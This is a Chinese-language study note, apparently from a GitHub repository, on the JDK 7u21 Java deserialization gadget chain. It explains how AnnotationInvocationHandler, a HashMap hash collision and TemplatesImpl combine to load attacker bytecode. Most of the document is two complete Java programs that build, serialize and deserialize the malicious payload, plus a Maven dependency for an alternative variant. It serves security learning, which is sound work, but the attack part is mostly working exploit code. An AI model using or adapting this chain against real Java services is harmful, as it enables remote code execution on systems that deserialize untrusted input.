




### jdk7u21

不需要任何依赖，只依靠 jdk7u21 源码，调用栈如下



核心在于 AnnotationInvocationHandler 类的 equalsImpl 方法，这里会判断 var1 是不是 proxy 实例，如果不是则返回空，继而进入下面的 else 分支，这个 else 分支会触发任意方法调用，var5 是遍历获取当前实例的方法，因此这里会触发一个对象的任意方法，如果该对象是 templatesImpl 类，则会触发到其中的 getOutputProperties 方法，打恶意字节码加载。


因此我们先配置好一个恶意 templatesImpl 实例，如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class jdk7u21 {
    public static void main(String[] args)throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);

    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("111.bin"));
        out.writeObject(obj);
    }
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));
        Object obj=in.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
}
```

接下来找如何会调用 AnnotationInvocationHandler 类的 invoke 方法，因为该类实现了 InvocationHandler 接口的 invoke 方法，因此当调用代理对象的方法时就会触发该 invoke 方法，并且调用的是 equals 方法，且只有一个 Object 类型的参数，才能调用 equalsImpl(var3[0]) 方法。



要调用 equals 方法，可以通过 hashMap 的 put 方法，如果 map.put(k,v) k 的 hash 与 Map 中的对象的 hash 相同，则会触发 key2.equals(key1)，因为 equalsImpl 中反射调用的是 key1 的任意方法，所以 hashmap 第一个放入的必须是 TemplatesImpl 对象，第二个放入 proxy。


触发到 代理对象的 equals 方法，进而走到 AnnotationInvocationHandler 类的 invoke 方法，然后就是要想让两个对象的 hash 相同，其中一个是 templatesImpl 对象，它的 hashcode 不可预测，另外一个是 proxy 代理对象的 hashcode ，可以看到如果调用 代理对象的 hashcode 会进入 AnnotationInvocationHandler 类实现的一个方法





这里可以看到对 menerValues 的键和值进行异或计算并返回，看网上的文章使用一个 hashcode 计算后为 0 的字符串作为键，这样异或得到的就是值本身的 hashcode 值。

因此值应该填入构造的 TemplatesImpl 对象，exp 如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class jdk7u21 {
    public static void main(String[] args)throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("D:\tools_D\java\java_learn\rome\src\main\java\evil.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);
        
        HashMap map1 = new HashMap();
        map1.put("f5a5a608",templatesImpl);

        Class clz=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor c = clz.getDeclaredConstructor(Class.class, Map.class);
        c.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) c.newInstance(Templates.class, map1);
        Templates proxy = (Templates) Proxy.newProxyInstance(templatesImpl.getClass().getClassLoader(), templatesImpl.getClass().getInterfaces(), invocationHandler);

        HashMap map2 = new HashMap();
        map2.put(proxy,1);
        map2.put(templatesImpl,1);

        serilize(map2);
        deserilize("1.bin");
    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("1.bin"));
        out.writeObject(obj);
    }
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));
        Object obj=in.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }


}
```

也可以使用 hsts 类保证 hash 值相同，但是需要引入新的依赖.

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```


